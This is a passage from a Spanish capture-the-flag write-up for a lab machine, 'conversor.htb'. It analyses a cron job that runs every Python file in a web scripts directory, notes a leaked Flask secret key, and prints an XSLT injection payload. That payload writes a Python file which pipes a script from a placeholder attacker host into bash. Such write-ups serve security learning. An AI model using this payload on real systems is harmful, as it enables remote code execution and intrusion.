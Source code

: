 2. Para cada archivo `f` resultante ejecuta `python3 "$f"`.
    
    - La comilla `"$f"` evita problemas con espacios o caracteres especiales en nombres de archivo.
        
3. Si no hay archivos que coincidan, dependiendo del shell el patrón puede quedar literal (intento de ejecutar `python3 /var/www/.../*.py` y fallar) — cron normalmente usa `/bin/sh`.



### Riesgos de seguridad (importante)

- Si un atacante puede **escribir o modificar** archivos en `/var/www/conversor.htb/scripts/`, puede meter un `.py` malicioso y lograr **ejecución de código** como `www-data` — escalado lateral posible.
    
- Ejecutar todo el contenido de un directorio sin control es peligroso: ficheros temporales, subidas por web, o symlinks podrían explotarse.
    
- Ejecutar con `www-data` evita ejecución como root, pero aún puede permitir persistencia, exfiltración o pivot dentro del sistema si hay vulnerabilidades.


### Informacion Posiblemente Util

contact@conversor.htb

app.secret_key = 'C0nv3rs0rIsthek3y29'

---
### 📂 Resumen
---

- Tecnologías: Apache HTTP Server 2.4.52, Python3
     
- Recurso accesibles: Source Code de Aplicacion

---

## 💥 Explotación

- Como tenemos la posibilidad de subir archivos xslt podemos crear una carga maliciosa que se suba oculto en el archivo, para entender mejor esto visita este recurso: https://ine.com/blog/xslt-injections-for-dummies

## XSLT Injections


**shell.xslt**

```bash

<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet 
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform" 
    xmlns:shell="http://exslt.org/common"
    extension-element-prefixes="shell"
    version="1.0"
>
<xsl:template match="/">
<shell:document href="/var/www/conversor.htb/scripts/shell.py" method="text"># Debemos darle una extensíon .py
import os
os.system("curl <IP-ATACANTE>:8000/shell.sh|bash")
</shell:document>
</xsl:template>
</xsl:stylesheet>

```
